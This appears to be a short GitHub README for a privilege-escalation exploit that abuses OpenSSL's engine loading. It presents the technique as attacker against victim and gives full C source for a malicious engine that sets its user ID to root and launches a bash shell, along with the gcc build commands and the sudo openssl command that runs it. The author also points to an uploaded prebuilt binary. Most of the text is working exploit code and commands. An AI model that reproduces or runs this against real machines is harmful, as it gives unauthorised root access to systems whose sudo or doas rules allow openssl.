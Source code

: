 # openssl-privilege-escalation
How to get ROOT with openssl

On kali(attacker), create a file called exploit.c with the following content:
#include <openssl/engine.h>
```
static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Then execute 2 commands:
gcc -fPIC -o exploit.o -c exploit.c
gcc -shared -o exploit.so -lcrypto exploit.o

Upload exploit.so to the victim machine then run:
sudo openssl req -engine ./exploit.so
(also worked with doas because I have tested it)
I have uploaded the exploit.so, so you can just run the above command without building it
